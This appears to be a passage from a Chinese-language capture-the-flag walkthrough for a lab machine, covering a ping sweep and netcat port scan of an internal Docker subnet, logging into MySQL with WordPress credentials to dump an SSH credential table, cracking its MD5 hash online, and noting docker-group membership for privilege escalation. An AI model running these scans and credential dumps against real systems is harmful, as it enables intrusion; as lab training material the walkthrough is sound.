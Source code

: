 


-rw-rw-rw- 1 root root   28 Feb 28  2019 .port

回到/root目录，找到一个名为“.port”的文件。打开文件并找到寻找其他容器的提示：
Listen to your friends..
7*


--------------------------------------------
--------------------------------------------
8、网段、端口探测

项目十九有枚举过：
查找存活IP：
for i in $(seq 1 255); do ping -c 1 172.18.0.$i; done | grep "bytes from"

64 bytes from 172.18.0.1: icmp_seq=1 ttl=64 time=0.044 ms
64 bytes from 172.18.0.2: icmp_seq=1 ttl=64 time=0.055 ms
64 bytes from 172.18.0.3: icmp_seq=1 ttl=64 time=0.019 ms
64 bytes from 172.18.0.4: icmp_seq=1 ttl=64 time=0.035 ms

查找3.4端口：
for i in $(seq 1 65535); do nc -nvz -w 1 172.18.0.4 $i 2>&1; done | grep -v "Connection refused"

(UNKNOWN) [172.18.0.1] 22 (ssh) open
(UNKNOWN) [172.18.0.1] 8000 (?) open
(UNKNOWN) [172.18.0.2] 3306 (mysql) open
(UNKNOWN) [172.18.0.3] 80 (http) open
(UNKNOWN) [172.18.0.4] 2021 (?) open


--------------------------------------------
--------------------------------------------
9、数据库枚举

知道端口 3306 用于 MySQL 服务，我们还有 WordPress 数据库的用户名和密码：


mysql -uwordpress -pwordpress -h 172.18.0.2
show databases;
use wordpress
show tables;  ---发现host_ssh_cred
select * from host_ssh_cred;

获得用户名哈希：
hummingbirdscyber
e10adc3949ba59abbe56e057f20f883e

https://www.somd5.com/
破解获得：123456


--------------------------------------------
--------------------------------------------
10、Docker提权

ssh hummingbirdscyber@192.168.253.218
id
开启了：129(docker)
在hummingbirdscyber权限中输入id可以看到hummingbirdscyber用户属于docker组！
